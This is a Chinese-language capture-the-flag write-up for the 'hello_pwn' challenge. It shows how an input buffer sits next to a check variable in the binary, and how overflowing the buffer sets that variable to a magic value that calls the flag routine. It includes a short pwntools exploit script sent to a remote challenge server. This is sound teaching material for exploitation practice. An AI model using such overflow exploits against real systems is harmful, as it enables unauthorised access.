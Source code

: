 # 攻防世界: hello_pwn

## **[目标]**
栈溢出 ROP

## **[环境]**
Ubuntu

## **[工具]**
gdb、objdump、python、pwntools, IDA

## **[过程分析]**

- 从ida中查看：

![](./pic/1.png)

- 将键盘中的输入写到 unk_601068 的地址上，如果 dword60106c 的值等于1853186401 的话就会执行方法 sub_400686()。方法内容如下：


![](./pic/2.png)

- 也就是执行这个方法就能得到flag。那如何让 dword60106c 等于 1853186401（将光标放在数字上，再按键盘上的h就能进行十进制和十六进制的转换）呢？查看一下 dword60106c的位置。


![](./pic/3.png)
- ！我们发现 unk_601068 的地址与 dword60106c 相连，在输入 unk_601068 的时候，可以将 dword60106c 的值覆盖成我们需要的值，而且允许输入的长度是完全能覆盖到的。

完整的exp如下：

```python
from pwn import *

context.log_level = 'debug'
p = remote('10.10.49.194', 30153)

p.recvuntil('lets get helloworld for bof\n')
padding = "A"*4

count = p64(1853186401)
shellcode = padding + count

p.send(shellcode)

print p.recv()

```
## **[参考阅读]**

[一步一步学习rop-x64](https://segmentfault.com/a/1190000007406442)

[一步一步学习rop-x86](https://segmentfault.com/a/1190000005888964)

[gdb的简单用法](https://blog.csdn.net/ll352071639/article/details/42304619)

[gdb查看内存命令](https://blog.csdn.net/yasi_xi/article/details/9263955)